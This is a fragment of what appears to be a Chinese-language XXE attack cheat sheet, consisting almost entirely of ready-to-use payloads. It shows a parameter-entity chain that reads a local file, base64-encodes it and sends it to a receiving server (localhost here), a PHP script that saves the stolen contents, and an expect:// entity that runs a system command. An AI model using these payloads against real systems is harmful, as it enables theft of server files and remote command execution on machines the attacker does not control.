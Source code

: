 ![Alt text](64.png)
#####类似的
```
可以直接写入文件
#访问请求
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://localhost/test.xml">
%remote;]>
#test.html
<!ENTITY % a SYSTEM "php://filter/read=convert.base64-encode/resource=file:///F:/1.txt">
<!ENTITY % b "<!ENTITY &#37; c SYSTEM 'http://localhost/test.php?file=%a;'>">
%b;
%c;
#test.php
<?php  
file_put_contents("test.txt", $_GET['file']) ;  
?>
```
![Alt text](65.png)
#### 执行命令
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```